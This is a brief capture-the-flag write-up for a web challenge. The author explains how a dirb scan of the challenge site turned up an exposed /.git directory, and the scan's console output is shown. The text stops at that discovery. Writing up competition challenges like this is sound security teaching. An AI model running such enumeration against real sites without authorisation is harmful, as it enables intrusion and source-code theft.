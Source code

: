 # WH02
## BRIEFING
Access the site at https://cfta-wh02.allyourbases.co and find a way to get the flag.

## Solution

I did not get this one during the competition. Later I realized that the main page of the site included a big hint by mentioning version control.

If we use `dirb`on the site, we find the crucial directory almost immediately, that is, a `/.git` directory:

```console
root@osboxes:/usr/share/wordlists/dirbuster# dirb https://cfta-wh02.allyourbases.co/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Apr 18 22:03:43 2021
URL_BASE: https://cfta-wh02.allyourbases.co/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: https://cfta-wh02.allyourbases.co/ ----
+ https://cfta-wh02.allyourbases.co/.git/HEAD (CODE:200|SIZE:23)  
```
